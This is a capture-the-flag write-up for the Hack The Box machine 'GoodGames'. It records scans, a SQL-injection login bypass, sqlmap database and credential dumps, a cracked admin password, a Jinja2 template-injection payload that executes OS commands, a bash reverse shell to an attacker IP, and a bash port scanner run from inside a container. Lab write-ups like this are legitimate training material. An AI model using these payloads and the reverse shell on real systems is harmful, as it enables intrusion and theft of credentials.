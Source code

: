 # nmap
//nmap all ports
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/nmap%20port%20scan.png)

# gobuster
//gobuster main
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/gobuster-main.png)

# domain

//goodgame.htb/blog
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/goodgames.htb.blog.png)

//STORE: site is in progress, nothing interesting
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/goodgames.htb.coming-soon.png)

Login Panel: goodgames.htb
mail: @ is required and therefore not sqli testable --> intercept with burp 
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/goodgames%20login%20page.png)

Try simple sqli in login creds 
sqli:  'or 1=1-- -

//Intercept
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/burpsuite%20login%20intercept.png)

//Payload
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/burpsuite%20sqli%20success.png)

//Succesfull payload:   ' or 1=1-- -
//Succesfull login
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/domain%20login%20successful.png)

//Dashboard
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/goodgames%20dashboard.png)

//new subdomain: internal-administration.goodgames.htb
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/goodgames%20unknown%20host.png)

//Again a login
//Try creds found by sqlmap: admin:superadministrator
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/internal-administration.goodgames.htb.login.png)

# sqlmap
//dump databases
````
sqlmap -r request-login.txt --dbs

`````

//database snippet
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/sqlmap%20databases.png)

dump database main and its tables entrys
````
sqlmap -r request-login.txt -D main --tables

//speed it up

sqlmap -r request-login.txt --dbs --threads 10 --time-sec 1
`````

//database main tables
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/sqlmap%20database%20main%20tables.png)
dump user table
````
sqlmap -r request-login.txt -D main -T user --dump

//speed it up

sqlmap -r request-login.txt -D main -T user --dump --threads 10 --time-sec 1
`````
//receive creds from database
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/sqlmap%20creds.png)

//crackstation
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/crackstation%20admin%20hash.png)

//internal.administration dashboard
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/internal%20admnistration%20dashboard.png)

//Flask application dashborar in settings: SSTI {{7*7}} = 49
![](Pasted image 20220913185124.png)

![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/ssti%20reflected.png)


![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/ssti%20payloads%20to%20rce.png)

ssti payload: make http server in www and host index.html file.
index.html content: 
````

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('10.10.14.7').read() }}

````
make dir www with index.html file:
````
bash -i >& /dev/tcp/10.10.14.5/1111 0>&1

`````

![](python3 http server on port 80.png)

![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/docker%20shell.png)

ls -la on entrypoint of shell shows dockerfile!
![](initial shell list files.png)
augustus got user name: 1000 --> docker?
mount shows that the home directory is mounted
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/home.augustus%20is%20mounted.png)

internal ip of docker: 172.19.0.2
![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/shell%20list%20networks.png)


nmap isnt installed on machine; make own bash script like this:
````
for port in $(seq 1 1000); do (echo "blah" > /dev/tcp/172.19.0.1/$port && echo "open - $port") 2>/dev/null; done

`````
writes blah to the port and if succeeds (&&) it will print open port

![](https://github.com/xenotim/CTF/blob/main/GoodGames/screenshots/bash%20custom%20port%20scanner.png)




XXXXXXXXXXXX
